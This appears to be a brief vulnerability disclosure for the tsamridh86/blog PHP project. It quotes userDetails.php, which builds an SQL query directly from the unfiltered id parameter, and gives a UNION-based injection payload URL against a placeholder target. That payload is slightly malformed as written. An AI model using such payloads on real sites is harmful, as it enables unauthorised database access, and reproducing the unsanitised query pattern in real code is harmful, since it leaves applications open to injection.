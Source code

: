 # tsamridh86/blog sql injection #


## tsamridh86/blog ##
https://github.com/tsamridh86/blog/

## Vulnerability details ##
the Vulnerability in /blog/user/userDetails.php allows SQL Injection via the id parameter


	<?php
		require '../config/classBundle.php';
		$connect = new connector();
		$bloggerDetails = "select userName from blogger_info where bloggerId = ".$_GET['id'];
		$bloggerDetails = $connect->executeQuery($bloggerDetails);
		$blogger = new blogger();
		$bloggerDetails = $bloggerDetails->fetch_assoc();
		$blogger->getDetails($bloggerDetails['userName'])
	?>
$id has not been filtered to cause injection

##payload##
```
http://target/user/userDetails.php?id=-1 and union select version()
```
